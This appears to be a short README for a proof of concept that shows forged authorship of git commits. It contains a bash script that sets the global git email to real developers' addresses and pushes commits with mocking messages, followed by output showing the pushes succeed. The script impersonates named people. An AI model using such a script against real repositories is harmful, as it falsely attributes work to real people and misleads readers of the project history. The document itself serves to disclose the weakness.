 ```bash
git add .
git commit -m "Linus commits like a boss"
git remote add origin $1
git push -u origin master
git config --global user.email "hd_moore@rapid7.com"
echo "hdm wuz here..." > hd_wuz_here.md
git add .
git commit -m "*wishes metasploit was written in python*"
git push
git config --global user.email "chris@ozmm.org"
echo "defunkt wuz here" > defunkt_wuz_here.md
git add .
git commit -m "defunkt in da house!"
git push
```

Output of PoC Exploit:

```bash
-> % ./github_commit_fraud.sh git@github.com:f47h3r/git_commit_fraud_poc.git
Initialized empty Git repository in /Users/schultzc/Personal/Research/gitcommitfraud/git_commit_fraud_poc/.git/
[master (root-commit) 85d38ce] Linus commits like a boss
 1 file changed, 1 insertion(+)
 create mode 100644 hello_linus.md
Counting objects: 3, done.
Writing objects: 100% (3/3), 250 bytes | 0 bytes/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To git@github.com:f47h3r/git_commit_fraud_poc.git
 * [new branch]      master -> master
Branch master set up to track remote branch master from origin.
[master cca007f] *wishes metasploit was written in python*
 1 file changed, 1 insertion(+)
 create mode 100644 hd_wuz_here.md
Counting objects: 4, done.
Delta compression using up to 4 threads.
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 319 bytes | 0 bytes/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To git@github.com:f47h3r/git_commit_fraud_poc.git
   85d38ce..cca007f  master -> master
[master 928f5ce] defunkt in da house!
 1 file changed, 1 insertion(+)
 create mode 100644 defunkt_wuz_here.md
Counting objects: 4, done.
Delta compression using up to 4 threads.
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 332 bytes | 0 bytes/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To git@github.com:f47h3r/git_commit_fraud_poc.git
   cca007f..928f5ce  master -> master
```
